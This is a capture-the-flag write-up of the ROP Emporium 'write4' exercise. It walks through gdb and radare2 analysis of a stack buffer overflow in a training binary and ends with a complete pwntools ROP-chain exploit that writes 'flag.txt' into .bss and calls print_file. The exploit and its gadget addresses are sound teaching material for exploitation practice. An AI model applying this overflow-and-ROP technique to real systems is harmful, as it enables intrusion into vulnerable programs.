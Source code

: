 ```yaml
---
title: "RopEmporium - Write4"
date: 2022-10-16T11:18:48+03:00
draft: false
image: write4.jpg
tags:
  - ropemporium
---
```


Goal of the challenge is understanding how to abuse readable and writable memory regions in binary files.The target binary can be downloaded from the authors website [ropemporium](https://ropemporium.com).

> Our first foray into proper gadget use.
> A useful function is still present, but we'll need to write a string into memory somehow.

First we check the binary protections enabled on the binary. Only **NX** (Not executable) protection is enabled on the binary according to `checksec` binary utility as shown in the image below.

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

For analysis of binary, we will use gdb debugger to analyze the functions. For analysis of our binary we start at the `main` function which is the entrypoint of our execution.

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000400607 <+0>:	push   rbp
   0x0000000000400608 <+1>:	mov    rbp,rsp
   0x000000000040060b <+4>:	call   0x400500 <pwnme@plt>
   0x0000000000400610 <+9>:	mov    eax,0x0
   0x0000000000400615 <+14>:	pop    rbp
   0x0000000000400616 <+15>:	ret
End of assembler dump.
(gdb)
```

From the above, the main function only calls `pwnme` function which looks interesting to us. Disassemble the **pwnme** function as shown below. `pwnme@plt` is used for referencing `pwnme` real address. Next step is analyzing `libwrite4.so` library using gdb.

```nasm
vx@archie:write4$ gdb -q libwrite4.so
Reading symbols from libwrite4.so...
(No debugging symbols found in libwrite4.so)
(gdb) disas pwnme
Dump of assembler code for function pwnme:
   0x00000000000008aa <+0>:	push   rbp
   0x00000000000008ab <+1>:	mov    rbp,rsp
   0x00000000000008ae <+4>:	sub    rsp,0x20
   0x00000000000008b2 <+8>:	mov    rax,QWORD PTR [rip+0x200727]        # 0x200fe0
   0x00000000000008b9 <+15>:	mov    rax,QWORD PTR [rax]
   0x00000000000008bc <+18>:	mov    ecx,0x0
   0x00000000000008c1 <+23>:	mov    edx,0x2
   0x00000000000008c6 <+28>:	mov    esi,0x0
   0x00000000000008cb <+33>:	mov    rdi,rax
   0x00000000000008ce <+36>:	call   0x790 <setvbuf@plt>
   0x00000000000008d3 <+41>:	lea    rdi,[rip+0x106]        # 0x9e0
   0x00000000000008da <+48>:	call   0x730 <puts@plt>
   0x00000000000008df <+53>:	lea    rdi,[rip+0x111]        # 0x9f7
   0x00000000000008e6 <+60>:	call   0x730 <puts@plt>
   0x00000000000008eb <+65>:	lea    rax,[rbp-0x20]
   0x00000000000008ef <+69>:	mov    edx,0x20
   0x00000000000008f4 <+74>:	mov    esi,0x0
   0x00000000000008f9 <+79>:	mov    rdi,rax
   0x00000000000008fc <+82>:	call   0x760 <memset@plt>
   0x0000000000000901 <+87>:	lea    rdi,[rip+0xf8]        # 0xa00
   0x0000000000000908 <+94>:	call   0x730 <puts@plt>
   0x000000000000090d <+99>:	lea    rdi,[rip+0x115]        # 0xa29
   0x0000000000000914 <+106>:	mov    eax,0x0
   0x0000000000000919 <+111>:	call   0x750 <printf@plt>
   0x000000000000091e <+116>:	lea    rax,[rbp-0x20]
   0x0000000000000922 <+120>:	mov    edx,0x200
   0x0000000000000927 <+125>:	mov    rsi,rax
   0x000000000000092a <+128>:	mov    edi,0x0
   0x000000000000092f <+133>:	call   0x770 <read@plt>
   0x0000000000000934 <+138>:	lea    rdi,[rip+0xf1]        # 0xa2c
   0x000000000000093b <+145>:	call   0x730 <puts@plt>
   0x0000000000000940 <+150>:	nop
   0x0000000000000941 <+151>:	leave
   0x0000000000000942 <+152>:	ret
End of assembler dump.
(gdb)
```

From the assembly code above, we are filling a buffer of size 0x20(32bytes) with a constant byte of zero. `memset` libc function is used to overwrite any values that have the memory area specified. The memory we are overwriting is [rbp-0x20]. This means we are allocating a memory buffer of size 32 bytes from the address of base pointer in the stack.

![](stack.png)

Therefore the next interesting libc function is **read** function, which reads user input and stores results in the specified buffer.From the above disassembled code, we are reading 0x200 bytes from the user and storing it in our buffer. This means we are reading more than what the buffer can hold, therefore leading to a stack buffer overflow.

```c
ssize_t read(int fd, void *buf, size_t count);  // read(0,[rbp-0x20], 0x200)
```

From the vulnerability,we can exploit it in order to abuse the control flow of the program by controlling the value of the return address.

From the authors hint, we need to look for an ELF section that is writable in order to write our target string.

> Perhaps the most important thing to consider in this challenge is where we're going to write our "flag.txt" string. Use rabin2 or readelf to check out the different sections of this binary and their permissions. Learn a little about ELF sections and their purpose.

Opening the binary in radare2, we can check permissions of different sections using the command **iS** as shown in the image below.

![](write4_where.png)

From the above we are able to determine the data and bss section are both readable and writable. Our target for the gadgets is to write our string to the **bss** section. Therefore we need to get memory address of **.bss** area.

From the authors challenge hint, we need to disassemble `usefulFunction` to understand how it works.

> Important!: A PLT entry for a function named print_file() exists within the challenge binary, simply call it with the name of a file you wish to read (like "flag.txt") as the 1st argument.

`usefulFunction` function is responsible for calling **print_file** function as hinted by the author.

![](write4_useful.png)

From the analysis of the above function, we can determine we are passing a string file name called **"nonexistent"** to the print_file function. The content of the arguments passed to the print_file function will be printed out to the user. Our goal is to pass our string of interest **flag.txt** to the the print_file function.

From the disassembly of the binary we have another interesting function called **usefulGadgets**.

```nasm
(gdb) disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x0000000000400628 <+0>:	mov    QWORD PTR [r14],r15
   0x000000000040062b <+3>:	ret
   0x000000000040062c <+4>:	nop    DWORD PTR [rax+0x0]
End of assembler dump.
(gdb)
```

The gadget from the above assembly code will enable us to write content of `r15` register to memory address [r14]. Next step is to look for gadgets that will enable us to control both **r14** and **r15** register values.

For building our chain, we need to understand the calling conventions of AMD64 ABI.The calling convention passes the arguments to the registers in the following order. RDI, RSI, RDX, RCX, R8 and R9.In x86 assembly **pop** instruction is used for putting value to the memory address, therefore we look for a pop gadget that will enable to control both `r14` and `r15`.

```nasm
  0x0040068f                 5d  pop rbp
  0x00400690               415e  pop r14
  0x00400692               415f  pop r15
  0x00400694                 c3  ret
```

Example of the above gadget, we have a pop rbp, pop r14, pop 15 ret instruction gadget. This gadget will enable us to control the desired registers. Because we don't need the rbp register, for our ropchain, we take the address pointed by pop14 **0x00400690**. This is possible because rop gadgets are set of instructions that end with **ret**.

From the disassembly of `usefulgadgets` function we know register r14 points to a memory region we want to write to. Therefore our strategy is to set the value of r14 register to be the address pointer of **.bss** section of ELF and r15 register to be the value we want to write to **.bss** section.

> Hopefully you've realized that ROP is just a form of arbitrary code execution and if we get creative we can leverage it to do things like write to or read from memory. The question we need to answer is: what mechanism are we going to use to solve this problem? Is there any built-in functionality to do the writing or do we need to use gadgets? In this challenge we won't be using built-in functionality since that's too similar to the previous challenges, instead we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg.

```nasm
  0x00400628             4d893e  mov qword [r14], r15
  0x0040062b                 c3  ret
```

Therefore, two gadgets will enable us to set the register values of `r14` and `r15` and copy the values of r15 to the memory region defined by r14.

Last is a find a gadget that will aid passing of an argument to the `print_file` function. Because the function takes one argument, we look for a `pop rdi ret` instruction

```nasm
  0x00400693                 5f  pop rdi
  0x00400694                 c3  ret
```

Now we have three separate rop gadgets, which we can chain them together to get a fully working rop chain. This chain will enable us to read the file content of the **flag.txt** and display output to the console.

A fully working ropchain exploit code of the challenge is,

```python
import pwn

pwn.context.arch = "amd64"
pwn.context.encoding ="latin-1"
pwn.warnings.simplefilter("ignore")
io = pwn.process('./write4')

bss_area = pwn.p64(0x00601038)
pop_r14_r15 = pwn.p64(0x00400690)
pop_rdi = pwn.p64(0x00400693)
mov_r14_r15 = pwn.p64(0x00400628)
print_file_addr = pwn.p64(0x0000000000400510)

payload = b"A" * 32 #fill the buffer
payload += b"B" *8  #overwrite the base pointer
payload += pop_r14_r15
payload += bss_area
payload += b"flag.txt"
payload += mov_r14_r15
payload += pop_rdi
payload += bss_area
payload += print_file_addr

io.writeafter('>', payload)

pwn.info(io.recvall().decode())
```

Successful execution of our exploit, will display a success flag.

```bash
vx@archie:write4$ python3 x.py
[+] Starting local process './write4': pid 7275
[+] Receiving all data: Done (45B)
[*] Process './write4' stopped with exit code -11 (SIGSEGV) (pid 7275)
[*]  Thank you!
    ROPE{a_placeholder_32byte_flag!}
```
